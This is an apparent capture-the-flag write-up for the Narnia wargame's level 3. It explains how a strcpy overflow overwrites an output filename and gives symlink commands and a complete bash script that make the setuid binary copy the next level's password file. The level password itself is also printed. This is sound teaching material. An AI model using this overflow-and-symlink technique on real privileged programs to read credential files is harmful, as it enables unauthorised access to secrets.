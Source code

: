 # narnia3

`/narnia/narnia3` can be exploited by a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) attack.

## Aim

When run, redirect program output from the default `/dev/null` device, to somewhere we can read later.

## Analysis

```c
char ofile[16] = "/dev/null";
char ifile[32];
...
strcpy(ifile, argv[1]);
```

The overflow occurs using our favourite command, `strcpy`. In this case, we can overwrite `ofile` from the overflow of `ifile`. Remember that local variables are added to the **top** of the stack **in the order they are declared**.

| address | frame | stack   |
| ------- | ----- | ------- |
| low     | main  | `ifile` |
| high    | main  | `ofile` |


## Exploitation
### Design

Essentially this means we can overflow `ifile` to change `ofile`, by passing one long argument to the program.

Unfortunately, strings in C are null byte (`\0`, `0x00`) terminated - the same terminator that bash uses to mark the end of command line arguments. The upshot is that something like this:

```bash
narnia3@narnia:~$ /narnia/narnia3 $(printf "/etc/narnia_pass/narnia4\x00\x00\x00\x00\x00\x00\x00\x00/home/narnia3/out")
error opening rnia3/out
```
will not work. Bash strips out any null bytes it finds before passing input to the program.

Fortunately, we have full access to the filesystem!

```bash
mkdir /home/narnia3/narnianarnianarnia # This path is now 32 bytes long
mkdir /home/narnia3/narnianarnianarnia/home
mkdir /home/narnia3/narnianarnianarnia/home/narnia3
```

This path will be handled by `narnia3` in the following way:

```bash
# Memory
## Expected
/home/narnia3/short/path        /dev/null
|32 byte ifile --------------->|
                                |16 byte ofile>|
ifile="/home/narnia3/path"
ofile="/dev/null"

## Actual (overflow)
/home/narnia3/narnianarnianarnia/home/narnia3/
|48 byte ifile ------------------------------->|
                                |16 byte ofile>|
ifile="/home/narnia3/narnianarnianarnia/home/narnia3/"
ofile="/home/narnia3/"
```

> Note that C reads strings from memory until it finds a null byte (`0x00`), at which point it stops. Therefore N bytes of memory can store N - 1 characters.
> This is also the reason in our exploit that `ifile` is read from memory as a 48 byte string, as we overflowed over the terminating `0x00` from when `ifile` was initialised.

We can now create files to exploit this behaviour:

```bash
ln -s /etc/narnia_pass/narnia4 /home/narnia3/narnianarnianarnia/home/narnia3/o
touch /home/narnia3/o
```

Now, when the full path to `o` is passed as an argument, `ifile` will point to the password file, and the `ofile` will point to an empty file in the home directory.

```bash
narnia3@narnia:~$ /narnia/narnia3 /home/narnia3/narnianarnianarnia/home/narnia3/o
copied contents of /home/narnia3/narnianarnianarnia/home/narnia3/o to a safer place... (/home/narnia3/o)
```

We can now just read out the password!

```
narnia3@narnia:~$ cat /home/narnia3/o
thaenohtai
▒▒▒▒▒4▒▒▒▒_▒▒}0,narnia3@narnia:
```

> You can read out just the password string using `strings /home/narnia3/o`.

### Implementation

As a nice script:

```bash
#!/bin/bash

# Setup filesystem
mkdir /home/narnia3/narnianarnianarnia
mkdir /home/narnia3/narnianarnianarnia/home
mkdir /home/narnia3/narnianarnianarnia/home/narnia3

# Make file objects
ln -s /etc/narnia_pass/narnia4 /home/narnia3/narnianarnianarnia/home/narnia3/o
touch /home/narnia3/o

# Pass exploit argument to program
/narnia/narnia3 /home/narnia3/narnianarnianarnia/home/narnia3/o

# Read password nicely (the output also contains binary output)
strings /home/narnia3/o
```
